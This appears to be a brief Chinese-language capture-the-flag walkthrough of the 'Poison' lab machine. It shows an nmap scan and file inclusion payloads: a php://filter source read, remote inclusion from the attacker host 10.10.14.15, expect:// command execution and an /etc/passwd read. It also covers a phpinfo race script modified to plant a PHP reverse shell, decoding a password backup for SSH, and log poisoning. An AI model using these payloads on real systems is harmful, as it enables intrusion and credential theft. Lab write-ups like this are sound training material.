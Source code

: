 
# Poison


> https://github.com/honze-net/nmap-bootstrap-xsl
``` 
nmap -sS -sV -oA nmap/posion --stylesheet nmap-bootstrap-xsl 10.10.10.84
firefox nmap/posion.xml
```

* 远程执行漏洞
``` 
#  将源码转成base64的文本，这样apache就是识别不出
?file=php://filter/covert.base64-encode/resource=index.php

?file=http://10.10.14.15/AnyFile
?file=ftp://10.10.14.15/AnyFile
?file=expect://ls
?file=/etc/passwd
```

* php lfi
根据phpinfo.php，发现上传文件是开启的
![](img/Poison-img1.png)

> https://github.com/swisskyrepo/PayloadsAllTheThings
> PayloadsAllTheThings/File Inclusion/phpinfolfi.py
``` 
> 修改lfi.py d.find("[tmp_name] =&gt")
> 修改lfi.py 添加php的reverse shell
python lfi.py 10.10.10.84 80 100
```
解密pwdbackup.txt， ssh连接
``` 
for i in $(seq 0 12); do echo -n '| base64 -d';done
cat  pwdbackup.txt 
```

* apache log freebsd. 日志毒害
``` 
/var/log/httpd-access.log 
```

* VNC提权